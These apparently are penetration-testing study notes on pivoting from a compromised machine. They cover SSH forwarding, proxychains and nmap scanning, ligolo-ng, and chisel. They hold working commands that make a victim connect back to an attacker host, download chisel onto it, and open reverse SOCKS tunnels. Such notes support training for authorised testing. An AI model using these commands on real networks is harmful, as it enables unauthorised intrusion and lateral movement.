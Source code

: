 What to look for on a compromised machine
Check the network of the machine and see if it's connected to a different subnet

which means you can connect to this network using the compromised machine

using this command: sudo ssh -N -D 127.0.0.1:9999 sean@10.11.1.251 -fN
you can set a port on your machine to run commands to the compromised machine by directing all traffic to your port by signing into the compromised machine ssh

then you can use proxychains to run commands to the port from the compromised machine thay you have setup, which is 9999.
You can set a port in proxychain conf file that you want to use.
using this command to get to the config: sudo nano /etc/proxychains.conf

use this command to run nmap throuhg proxychains: proxychains nmap --top-ports=20 -sT -Pn 10.1.1.247
you should be able to scan any machine on this network this way


------------------------------------------------------------------------
# Setting up ligolo-ng
```
// Use these 3 commands to setup your ligolo network interface and to run ligolo
# sudo ip tuntap add user cyrano mode tun ligolo
# sudo ip link set ligolo up
# ./proxy -selfcert

// Use this command to add the victim network subnet to your network interface that you are trying to tunnel into.
# sudo ip route add IP/24 dev ligolo

// Use this command to confirm the route was added to your list
# ip route list

// Run agent on victim machine to receive a session on attacker machine
agent.exe -connect 192.168.45.195:11601 -ignore-cert

// Use this command to add a listner
listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:80
```


## Tools
[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng "https://github.com/nicocha30/ligolo-ng")
https://www.youtube.com/watch?v=DM1B8S80EvQ

proxychains


-------------------------------------------------------------
## Tunneling with ssh from the victim
ssh port forward from victim machine when ssh is only usable from the inside of victim machine
``` 
attack machine
sudo systemctl ssh
sudo systemctl enable ssh
sudo systemctl start ssh

from victim machine: enter attacker ssh information
ssh attacker@192.168.45.195 -R 8000:localhost:8000

# This option allows you to ssh from victim machine to attack machine, so you can run enumaration scans
ssh -N -R 1080 attacker@IP
```


------------------------------------------------------
## Setting up chisel

```
#attack machine setup, port is the attack machine listening port
./chisel server --port 9000 --socks5 --reverse

#Download chisel on vuln machine and run it
wget http://IP/chisel -o chisel.exe
#This will be the port you are forwarding from vuln machine back to attack machine.
windows machine
.\chisel.exe client IP:PORT R:socks
Linux machine
./chisel client IP:PORT R:socks


#make sure you have /etc/proxychains4.conf setup for w/e socks5 port you plan on using. ie:socks5 127.0.0.1 1080

```
